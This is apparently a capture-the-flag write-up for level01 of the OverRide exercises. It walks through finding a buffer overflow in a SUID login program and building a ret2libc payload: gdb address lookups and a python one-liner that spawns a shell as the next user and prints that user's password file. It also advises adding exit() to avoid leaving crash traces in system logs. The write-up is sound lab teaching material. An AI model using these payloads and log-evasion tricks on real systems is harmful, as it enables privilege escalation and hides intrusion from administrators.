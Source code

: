 # Level 1

## Vulnerability



## Context

We find a binary with owner ```level01``` and SUID.
```
level01@OverRide:~$ ls -l
-rwsr-s---+ 1 level02 users 7360 Sep 10  2016 level01
```

When run, we see it prompts for a username (and probably later, a password).
```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: POTUS
verifying username....

nope, incorrect username...
```

## Solution

### main() overview
Let's take a deeper look at the program.
See [dissasembly notes](https://github.com/anyashuka/Override/blob/main/level01/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

First ```main()``` prompts for a username and password, reading from stdin with ```fgets()```, and then calling ```verify_user_name()``` and ```verify_user_pass()```.

In each case, user input for username and password is compared with a hard value in memory and jumps to exit if not equal. 

In ```verify_user_name()```, we see that the username must be "dat_wil".

In ```verify_user_pass()```, we see that the password must be "admin".

However, when we try these values the program still quits. 
```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...
```

### Exploit

First off, we can identify a vulnerability with ```fgets()``` to trigger a buffer overflow. 

Using our trusty [pattern generator and EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we crash the program and find we can overwrite the EIP at offset 80.
```
(gdb) r
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

In the previous project, [Rainfall](https://github.com/anyashuka/Rainfall), our strategy was to copy shellcode to the stack and jump to it (a classic stack-based buffer overflow). 

We've found a more elegant solution to use here: a ret2libc ("return-to-libc") attack, which will overwrite the EIP return address with a particular libc function address directly. 

In this case, we''re going to overwrite the EIP with the address of ```system```, "/bin/sh", and ```exit()```.
Let's find those addresses. 
```
(gdb) b *main
Breakpoint 1 at 0x80484d0

(gdb) r
Starting program: /home/users/level01/level01

Breakpoint 1, 0x080484d0 in main ()

(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>

(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```
Ok, here are our addresses:
- ```system()``` is at 0xf7e6aed0
- ```exit()``` is at 0xf7e5eb70
- "/bin/sh" is at 0xf7f897ec
Note: we will flip these for little endian!

Why bother add the ```exit()```? Because if we don't, then the shell will segfault upon exit – which will be recorded in the dmesg logs and visible to any system admin who looks... So basically, to erase our footsteps! 

### Build exploit

Let's build our attack payload:

[ 80 x "A" ] [ address of system ] [ address of exit ] [ address of "/bin/sh" ]

```
level01@OverRide:~$ (python -c 'print "dat_wil\n" + "A"*80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"' ; cat -) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
``` 

## Recreate Exploited Binary

As user ```level02```, in ```/tmp```, create and compile ```level01_source.c```
```
level02@OverRide:/tmp$ gcc level01_source.c -o level01_source
```

Edit permissions including suid, then move the binary to home directory.
```
level02@OverRide:/tmp$ chmod u+s level01_source; chmod +wx ~; mv level01_source ~
```

Exit back to user ```level01```, then launch the source with the ret2libc exploit (with new addresses for system, /bin/sh, and exit).

system 0x 7f ff f7 a6 12 10

       \x10\x12\xa6\xf7\xff\x7f
       
exit 0x 7f ff f7 a5 75 80

       \x80\x75\xa5\xf7\xff\x7f
       
/bin/sh 0x 7f ff f7 b9 4d 0f

       \x0f\x4d\xb9\xf7\xff\x7f
       
I have tried compiling with -fno-stack-protector, -z execstack, and disabling ASLR... no success :(
```
level01@OverRide:~$ (python -c 'print "dat_wil\n" + "A"*80 + "\x10\x12\xa6\xf7\xff\x7f" + "\x80\x75\xa5\xf7\xff\x7f" + "\x0f\x4d\xb9\xf7\xff\x7f"' ; cat -) | ./level01_source
...

```

